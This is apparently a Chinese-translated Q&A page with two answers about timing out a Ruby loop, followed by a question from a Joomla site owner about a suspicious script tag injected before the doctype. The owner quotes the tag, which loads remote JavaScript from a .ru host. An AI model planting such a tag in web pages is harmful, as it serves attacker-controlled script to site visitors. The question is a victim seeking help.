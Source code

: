 * * *

## 回答 #1

> 赞同：9
> 
> 时间：2012-05-27T07:01:17.760

Ruby 的 stdlib 已经为此提供了一个 Timeout 模块：

```
begin
  require "timeout"
  Timeout::timeout(60) do
    # all of the things...
  end
rescue Timeout::Error => e
end 
```

* * *

## 回答 #2

> 赞同：3
> 
> 时间：2012-05-27T06:39:47.767

由于您不太可能在开始后*正好*60 秒到达那条线，请尝试：

```
break if Time.now > @start_time + 60 
```

# joomla - joomla 网站顶部的垃圾邮件脚本标签

> ID：10772055
> 
> 赞同：1
> 
> 时间：2012-05-27T06:14:52.237
> 
> 标签：joomla, spam

我有一个 joomla 网站正在运行，但最近我注意到页面顶部的一个脚本标签看起来很垃圾。

```
<script type="text/javascript" src="http://lhljoi.ru/tmp/go2.php?site=13"></script> 
```

这个标签甚至在 doctype 元素之前。

由于老板不允许，我将无法分享该网站的网址。

请帮忙。
